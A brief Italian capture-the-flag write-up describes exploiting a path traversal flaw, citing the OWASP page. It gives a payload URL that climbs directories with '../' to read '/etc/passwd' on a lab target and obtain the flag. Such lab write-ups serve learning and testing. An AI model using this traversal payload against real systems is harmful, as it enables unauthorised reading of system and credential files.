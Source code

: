 
Documentandomi su [OWASP_PATH_Traversal]https://owasp.org/www-community/attacks/Path_Traversal ho provato ad eseguire questo tipo di "Attacco"

per leggere nel file in `/etc/passwd` 

semplicemente risalendo l'albero con `../` si arriva a ` http://{{IP_ADDRESS}}/?page=../../../../../../../etc/passwd`

dove otteniamo la flag
